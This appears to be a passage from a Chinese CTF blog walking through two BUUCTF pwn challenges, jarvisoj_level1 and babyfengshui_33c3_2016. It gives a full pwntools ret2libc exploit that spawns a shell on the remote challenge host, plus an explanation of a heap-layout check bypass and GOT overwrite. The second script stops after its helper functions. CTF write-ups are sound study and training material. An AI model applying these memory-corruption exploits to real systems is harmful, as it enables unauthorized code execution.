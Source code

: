# buu054-jarvisoj_level1
又是那个jarvisoj特有的“肠梗阻”问题，远程的消息不发点东西过去它是不会过来的，这题本来是在栈中写shellcode然后返回到栈上执行，但是也可以用ret2Libc。
```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'
# io = process('./pwn')
io = remote('node4.buuoj.cn', 26705)
elf = ELF('./pwn')
io.sendline(cyclic(0x88+4) + p32(elf.plt['write']) + p32(elf.symbols['main']) + p32(1) + p32(elf.got['printf']) + p32(4))
printf = u32(io.recv(4))
libc = LibcSearcher('printf', printf)
base = printf - libc.dump('printf')
print(hex(base))
sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')
io.sendline(cyclic(0x88+4) + p32(sys) + p32(0xdeadbeef) + p32(binsh))
io.interactive()
```
# buu055-babyfengshui_33c3_2016
一道考察堆排布的题目，一共可以添加最多50个用户，每一个用户的信息用两个chunk来保存。第一个chunk保存description，大小可以自由选择，第二个chunk保存第一个chunk的地址加用户名，大小固定为0x80（可写大小）。
![](https://img-blog.csdnimg.cn/73152ca45e1c452699153c9429e6e11e.png)
需要重点关注一下选项0添加用户中用于读取姓名的函数中的一个检查。
![](https://img-blog.csdnimg.cn/8cb5a169ff624ca4bac1c9a9da2d2dd0.png)
这个地方检查的是两个堆地址的大小关系。那这个检查到底检查的是什么呢？
ptr存放50个user_info指针，那么&ptr+index应该就是要写入用户名的user_info的地址，查阅汇编代码发现后面的name[120]不明所以，故调试才是最好的理解方式。调试发现，这里实际上检查的是：一个user_info中desc的输入长度是否超限。它的比较方式是：首先输入desc的长度（这里实际上是重复输入，前面已经输入过一次长度，desc的chunk已经分配），然后程序比较"desc+长度"这个地址是否超过了user_info的地址。由于desc先于user_info分配，因此这样检查。如分配的desc可写头部地址为0x8049208，可写大小为0x80，user_info的可写头部地址为0x8049298，在写入desc的时候输入大小为0x40，那么这个检查比较的是0x8049208+0x40和0x804929c（user_info的size）的大小。
如此看来，绕过这个检查的思路就很清晰了。我们想办法让这两个chunk分配的距离远一点，中间还有其他的chunk，而且desc分配在user_info的低地址位置。这样的话我们就可以通过写入desc来覆盖某些chunk。
如下图就是一个简洁的利用思路。
![](https://img-blog.csdnimg.cn/88d36196d4874024b720cf2a7c004adf.png)
通过堆溢出将user_info #3中的desc指针替换成.got表地址，获取到free函数地址后计算system地址，再写回到got表中，调用free函数即可执行system('/bin/sh')
```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'
# io = process('./pwn')
io = remote('node4.buuoj.cn', 29858)
elf = ELF('./pwn')

def add(size, desclen, desc, name):
	io.sendlineafter(b'Action: ', b'0')
	io.sendlineafter(b'size of description: ', str(size).encode())
	io.sendlineafter(b'name: ', name)
	io.sendlineafter(b'text length: ', str(desclen).encode())
	io.sendlineafter(b'text: ', desc)

def delete(index):
	io.sendlineafter(b'Action: ', b'1')
	io.sendlineafter(b'index: ', str(index).encode())
	
def show(index):
	io.sendlineafter(b'Action: ', b'2')
	io.sendlineafter(b'index: ', str(index).encode())

```